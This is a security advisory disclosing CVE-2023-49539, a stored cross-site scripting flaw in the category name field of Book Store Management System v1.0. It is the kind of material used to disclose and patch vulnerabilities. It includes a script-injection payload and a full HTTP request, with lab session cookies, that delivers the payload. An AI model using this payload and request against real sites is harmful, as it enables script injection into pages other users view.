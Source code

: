 # CVE-2023-49539
# Book Store Management System v1.0 -  Cross-site scripting (XSS) vulnerability in "index.php/category" - vulnerable field: "Category Name"


**Description**: Book Store Management System v1.0 was discovered to contain a cross-site scripting (XSS) vulnerability in "/bsms_ci/index.php/category". This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the "category Name" field.  

**Vulnerable Product Version**: Book Store Management System v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 29/11/2023  
**Confirmed on**: 15/12/2023  
**CVE**: CVE-2023-49539  
**Tested on**: Windows  
### Steps to reproduce:  
The vulnerability exists within the "/bsms_ci/index.php/category/" page. Specifically, when creating/editing a category, the 'Category Name' field has been identified as vulnerable. Attackers can exploit this vulnerability by injecting a cross-site scripting (XSS) payload into the "Category Name" field during the category creation/edition process.    
### Payload:
```
<\td><script>alert(document.domain)</script>
```
### Request:
```
POST /bsms_ci/index.php/category/category_update HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/bsms_ci/index.php/category
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; ci_session=72ruij3r4688s92v273ncnqjm150uvu8
Upgrade-Insecure-Requests: 1

category_code_lama=12&category_code=12&category_name=%3c%5ctd%3e%3cscript%3ealert(document.domain)%3c%2fscript%3e&edit=Save
```
Discoverer(s)/Credits:  
Geraldo Alcântara  
